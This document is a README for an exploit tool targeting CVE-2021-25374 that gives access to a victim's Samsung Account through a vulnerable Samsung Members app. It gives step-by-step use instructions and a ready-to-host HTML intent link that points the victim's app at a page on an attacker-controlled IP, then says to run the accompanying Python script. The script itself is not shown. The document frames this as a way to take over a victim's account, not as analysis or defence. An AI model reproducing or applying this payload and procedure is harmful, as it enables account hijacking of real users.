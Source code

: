 # CVE-2021-25374 - Samsung Account Access Script

This script can be used to gain access to a victim's Samsung Account if they have a specific version of Samsung Members installed on their Samsung Device, and if the victim's device is from the US or Korea region.

## How to use this script:

1) Host a web server and have it host a web page with the following link:

`<a href="intent://launch?url=http://<attacker IP>:8000/yay.html&action=sso&from=ZZ&iso=ZZ#Intent;scheme=samsungrewards;package=com.samsung.android.voc;action=android.intent.action.VIEW;end;">yay click here yay</a>`

NOTE: replace "\<attacker IP\>" with the IP address that you'll be running this script from.

2) Run this script

`python3 ./samsung_account_access.py`

3) Using a Samsung Phone, browse to the web server and click on the link

4) Let the script do its thing

More information about the issue this script exploits can be found here: <placeholder>
